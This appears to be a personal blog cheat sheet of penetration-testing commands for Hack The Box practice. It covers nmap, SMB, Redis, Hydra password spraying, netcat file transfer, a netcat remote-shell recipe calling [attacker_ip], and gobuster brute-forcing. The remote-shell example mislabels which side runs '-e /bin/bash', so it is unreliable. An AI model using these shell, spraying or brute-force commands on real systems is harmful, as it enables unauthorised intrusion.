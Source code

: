 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.


#### Netcat

Netcat (or nc) is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It is used for a variety of tasks involving network connections
```bash
1. Basic Syntax
nc [options] [hostname] [port]

2. Start a TCP Server
nc -l -p 1234

3. Connect to a TCP Server
nc [hostname] 1234

4. File Transfer
On the server (receiving):
nc -l -p 1234 > received_file
On the client (sending):
nc [server_ip] 1234 < file_to_send

5. Port Scanning
nc -zv [hostname] [port_range]
Example:
nc -zv localhost 20-80

6. Simple Chat
Listener:
nc -l -p 1234
Connector:
nc [hostname] 1234

7. UDP Mode
Send UDP packets:
nc -u [hostname] 1234
Listen for UDP packets:
nc -u -l -p 1234

8. Remote Shell
Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
Client (target's machine):
nc [attacker_ip] 4444

9. Check if a Port is Open
nc -zv [hostname] [port]
Example:
nc -zv example.com 80

10. Set a Timeout
nc -w 3 [hostname] 1234
```

#### Gobuster - Directory/File Brute-Force (HTTP/HTTPS)

```bash
gobuster dir -u http://example.com -w /path/to/wordlist.txt
```

- `dir`: Directory/file brute-forcing mode
- `-u`: Target URL
- `-w`: Path to the wordlist

#### DNS Subdomain Brute-Force

```bash
gobuster dns -d example.com -w /path/to/wordlist.txt
```

- `dns`: DNS subdomain brute-forcing mode
- `-d`: Domain to target

#### Virtual Host Brute-Force

```bash
gobuster vhost -u http://example.com -w /path/to/wordlist.txt
```

- `vhost`: Virtual host brute-forcing mode
- `-u`: Target URL

### Additional Flags

- `-t`: Number of concurrent threads (default: 10)
- `-o`: Output results to a file
- `-x`: File extensions to check (e.g., `.php`, `.html`)
- `-s`: HTTP response status codes to consider valid (e.g., `200,301`)

### Example Command with Output

```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -t 50 -o results.txt
```

This will brute-force directories using 50 threads and save the results to `results.txt`.
